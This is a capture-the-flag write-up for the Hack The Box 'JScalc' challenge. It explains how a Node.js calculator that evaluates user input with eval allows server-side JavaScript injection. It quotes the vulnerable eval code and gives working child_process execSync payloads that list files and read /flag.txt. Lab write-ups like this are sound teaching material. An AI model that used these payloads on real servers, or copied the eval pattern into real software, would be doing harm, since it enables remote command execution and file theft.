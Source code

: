 ```yaml
---
title: JScalc - Hack The Box
date: 2024-11-16
---
```


# JScalc

![JScalc - thumbnail](/ctf/hack-the-box/challenges/web/jscalc/thumbnail.png)

## Challenge description

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids.
With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet
trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

## Challenge overview

The challenge presents us with a web application that features a JavaScript calculator. Users can input formulas, which
the application evaluates and returns the result.

### How it works

Clicking the **Calculate** button sends a `POST` request to the `/api/calculate` endpoint, where the following
server-side code processes the formula:

```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${formula} ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

**Key Observations**:

1. The application uses the **`eval`** function to evaluate user-provided input.
2. The formula is executed within a function context, meaning arbitrary JavaScript can potentially be executed.

This reliance on `eval` makes the application vulnerable to **Server-Side JavaScript Injection (SSJI)**, allowing us to
execute arbitrary JavaScript code on the server.

## Exploitation

To confirm SSJI, we inject:

```js
process.platform
```

The response includes the server's platform `linux`, it confirms the vulnerability.

Using **Node.js’s `require` function**, we can execute arbitrary system commands through the `child_process` module. For
instance:

- **List files in the directory**:
    ```js
    require('child_process').execSync('ls').toString()
    ```

- **Retrieve the flag**:
    ```js
    require('child_process').execSync('cat /flag.txt').toString()
    ```

After injecting the payload, the server processes the request, and the response includes the contents of the `flag.txt`
file.

![JScalc - flag](/ctf/hack-the-box/challenges/web/jscalc/exploit.png)

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

![JScalc - pwned](/ctf/hack-the-box/challenges/web/jscalc/pwned.png)

## References

- [MDN Web Docs - eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
- [Node.js - child_process](https://nodejs.org/api/child_process.html)
- [OWADP NodeGoat - Server-Side Injection](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html)
- [Github - Code injection](https://github.com/btarr/node-eval-code-injection)
